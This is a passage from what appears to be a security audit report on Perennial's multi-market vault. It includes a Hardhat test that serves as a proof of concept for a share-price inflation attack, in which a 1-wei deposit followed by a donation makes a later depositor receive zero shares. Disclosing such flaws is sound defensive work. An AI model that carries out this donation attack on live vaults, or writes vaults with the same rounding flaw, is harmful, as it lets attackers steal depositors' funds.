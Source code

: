 The currently deployed Vaults already hold funds and will merely be upgraded to V2. However as Perennial expands there will surely be the need for more Vaults which enables this issue to occur.

## Vulnerability Detail
You can add the following test to `BalancedVaultMulti.test.ts`.
Make sure to have the `dsu` variable available in the test since by default this variable is not exposed to the tests.

The test is self-explanatory and contains the necessary comments:

```javascript
it('exchange rate manipulation', async () => {
      const smallDeposit = utils.parseEther('1')
      const smallestDeposit = utils.parseEther('0.000000000000000001')

      // make a deposit with the attacker. Deposit 1 Wei to mint 1 Wei of shares
      await vault.connect(user).deposit(smallestDeposit, user.address)
      await updateOracle();
      await vault.sync()

      console.log(await vault.totalSupply());

      // donating assets to Vault
      await dsu.connect(user).transfer(vault.address, utils.parseEther('1'))

      console.log(await vault.totalAssets());

      // make a deposit with the victim. Due to rounding the victim will end up with 0 shares
      await updateOracle();
      await vault.sync()
      await vault.connect(user2).deposit(smallDeposit, user2.address)
      await updateOracle();
      await vault.sync()

      console.log(await vault.totalAssets());
      console.log(await vault.totalSupply());
      // the amount of shares the victim receives is rounded down to 0
      console.log(await vault.balanceOf(user2.address));

      /*
      at this point there are 2000000000000000001 Wei of assets in the Vault and only 1 Wei of shares
      which is owned by the attacker.
      This means the attacker has stolen all funds from the victim.
      */
    })
```

## Impact
The attacker can steal funds from later depositors.
